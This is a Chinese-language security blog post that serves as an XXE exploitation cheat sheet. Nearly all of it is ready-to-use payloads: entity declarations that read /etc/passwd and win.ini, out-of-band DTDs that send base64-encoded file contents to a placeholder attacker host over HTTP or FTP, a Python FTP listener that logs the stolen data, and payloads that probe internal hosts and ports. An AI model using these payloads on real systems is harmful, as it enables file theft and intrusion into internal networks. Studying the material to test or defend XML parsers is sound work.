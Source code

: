 ```yaml
---
title: "XXE利用"
date: 2021-01-17T12:28:36+08:00
draft: false
categories: ["security"]
---
```


## 有回显XXE
### 引用外部实体

	<?xml version="1.0" encoding="utf-8" ?>
	<!DOCTYPE foo [
		<!ELEMENT foo ANY >
        <!ENTITY s1 SYSTEM "file:///etc/passwd" >
    ]>
	<foo>&s1;</foo>

### 引用公共实体

	<?xml version="1.0" encoding="utf-8" ?>
	<!DOCTYPE root PUBLIC "test" "file:///etc/passwd">
	<root>&test;</root>

### 引用参数实体
当文件含有特殊符号的时候，如&,<,>,",'等。使用此种方式：

payload：

	<?xml version="1.0" encoding="utf-8"?> 
	<!DOCTYPE roottag [
	<!ENTITY % start "<![CDATA[">   
	<!ENTITY % goodies SYSTEM "file:///etc/passwd">  
	<!ENTITY % end "]]>">  
	<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
	%dtd; ]> 
	
	<roottag>&all;</roottag>

evil.dtd:

	<?xml version="1.0" encoding="UTF-8"?> 
	<!ENTITY all "%start;%goodies;%end;">

## 无回显XXE
### php环境下
payload：

	<!DOCTYPE convert [ 
	<!ENTITY % remote SYSTEM "http://ip/evil.dtd">
	%remote;%int;%send;
	]>

evil.dtd:

	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///windows/win.ini">
	<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip:9999?p=%file;'>">

### Java环境下
JDK必须小于7u141或者小于8u162才可以读取没有特殊符号的文件(例如换行符号等)。

payload：

	<?xml version="1.0"?>
	<!DOCTYPE cdl [<!ENTITY % asd SYSTEM "http://ip:8000/evil.dtd">%asd;%c;]>
	<cdl>&rrr;</cdl>

evil.dtd:

	<!ENTITY % d SYSTEM "file:///C://windows/win.ini">
	<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://ip:2144/%d;'>">

开启FTP服务器的脚本如下：

	#!/usr/bin/env python3
	import socket
	import sys
	import argparse
	
	
	name = """
	Running...
	"""
	
	print(name)
	
	parser = argparse.ArgumentParser(description='An Out-of-Band XXE tool')
	parser.add_argument('port',type=int,help="Port for the FTP server to listen on (2121 / 21)")
	args = parser.parse_args()
	
	HOST = ''
	PORT = args.port
	
	welcome = b'oob-xxe\n'
	ftp_catch_all_response = b'more data please!\n'
	ftp_user_response = b'hello world!\n'
	ftp_pass_response = b'my password is also hunter2!\n'
	
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	
	def main():
	    try:
	        s.bind((HOST, PORT))
	    except socket.error as msg:
	        print('[+] ERROR: Bind failed. ')
	        sys.exit()
	
	    s.listen(10)
	    print('[+] OOB started on port: '+str(PORT))
	
	
	    conn, addr = s.accept()
	    print('[*] Connection from: '+addr[0])
	    conn.sendall(welcome)
	
	    while True:
	        data = conn.recv(1024)
	        ftp_command = data.split(b" ", 1)
	        response = {
	            'user': ftp_user_response,
	            'pass': ftp_pass_response,
	        }.get(ftp_command[0].lower(), ftp_catch_all_response)
	        conn.sendall(response)
	        line = data.decode('UTF-8')
	        line = line.replace("\n","").replace("CWD","")
	        print(line)
	        extract(line)
	    s.close()
	
	def extract(data):
	        fopen = open('./extracted.log', 'a')
	        fopen.write(data)
	        fopen.close()
	
	try:
	    main()
	except KeyboardInterrupt:
	    s.close()

## XXE内网主机和端口探测
### 内网主机探测
payload如下(使用burp的intruder修改ip)：

	<?xml version="1.0" encoding="utf-8" ?>
	<!DOCTYPE foo [
	    <!ELEMENT foo ANY >
	    <!ENTITY s1 SYSTEM "http://10.0.0.1" >
	]>
	<foo>&s1;</foo>

### 内网端口探测
payload如下（使用burp的intruder修改端口）：

	<?xml version="1.0" encoding="utf-8"?>  
	<!DOCTYPE data SYSTEM "http://127.0.0.1:515/" [  
	<!ELEMENT data (#PCDATA)>  
	]>
	<data>4</data>

## 一些其他利用方式
- `jar://` 协议文件上传。
- Dos攻击。
- 邮件钓鱼：如果内网有一台易受攻击的SMTP服务器，我们就能利用 `ftp://` 协议结合 `CRLF` 注入向其发送任意命令。


## 参考链接
- [一篇文章带你深入理解XXE](l0)

[l0]:https://xz.aliyun.com/t/3357#toc-1